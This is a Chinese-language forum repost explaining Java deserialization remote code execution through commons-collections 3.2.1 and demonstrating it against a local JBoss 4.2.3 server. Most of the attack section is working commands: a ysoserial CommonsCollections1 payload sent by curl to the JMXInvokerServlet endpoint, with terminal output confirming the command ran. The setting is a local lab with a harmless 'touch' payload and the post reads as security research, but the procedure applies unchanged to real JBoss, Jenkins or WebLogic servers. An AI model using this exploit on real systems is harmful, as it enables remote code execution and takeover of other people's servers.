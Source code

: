 轉自：http://zone.wooyun.org/content/23847

#关于java unserialize rce 一些细节和jboss rce 实践

##1:原理 
大概和php的差不多反序列化时对象注入可以造成代码执行,例如 commons-collections-3.2.1.jar 包就存在这个漏洞,所以只要使用了这个lib的都有可能rce,例如jboss,jenkins,weblogic 等。 

##2:利用方法 
有人写了一个执行命令的payload 生成器,java反射调用Runtime.getRunTime.exec 执行命令,应该也可以改成写文件之类的(未验证)。 

##3:jboss 利用实践 
#####环境 
```
yum install java-1.7.0-openjdk-devel -y 
wget -O jboss-4.2.3.zip http://sourceforge.net/projects/jboss/files/JBoss/JBoss-4.2.3.GA/jboss-4.2.3.GA-jdk6.zip/download 
unzip jboss-4.2.3.zip 
mv jboss-4.2.3.GA /usr/local/share/jboss 
adduser appserver 
chown -R appserver /usr/local/share/jboss 
su -l appserver 
cd /usr/local/share/jboss/bin 
./run.sh -b 0.0.0.0
```



#####exploit 
```
wget https://github.com/frohoff/ysoserial/releases/download/v0.0.2/ysoserial-0.0.2-all.jar 
java -jar ysoserial-0.0.2-all.jar CommonsCollections1 'touch /tmp/pwned' > /tmp/payload 
curl --header 'Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue' --data-binary '@/tmp/payload' http://127.0.0.1:8080/invoker/JMXInvokerServlet
```


#####测试 
```
[root@uauc ~]# rm  -rf   /tmp/pwned 
[root@uauc ~]# ls -lh   /tmp/pwned 
ls: cannot access /tmp/pwned: No such file or directory 
[root@uauc ~]# curl --header 'Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue' --data-binary '@/tmp/payload' http://127.0.0.1:8080/invoker/JMXInvokerServlet  >  1.log 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current 
                                 Dload  Upload   Total   Spent    Left  Speed 
100  5335    0  3927  100  1408  39474  14153 --:--:-- --:--:-- --:--:-- 42225 
[root@uauc ~]# ls -lh   /tmp/pwned 
-rw-rw-r-- 1 appserver appserver 0 Nov 10 15:27 /tmp/pwned
```

成功-_- 

演示图 
QQ图片20151110153639.png 

##4:更多 
具体漏洞原理利用以及受影响应用还待研究,权为抛砖引玉,欢迎讨论。 


##5:参考资料 

http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#thevulnerability  
https://github.com/foxglovesec/JavaUnserializeExploits  
https://github.com/frohoff/ysoserial  
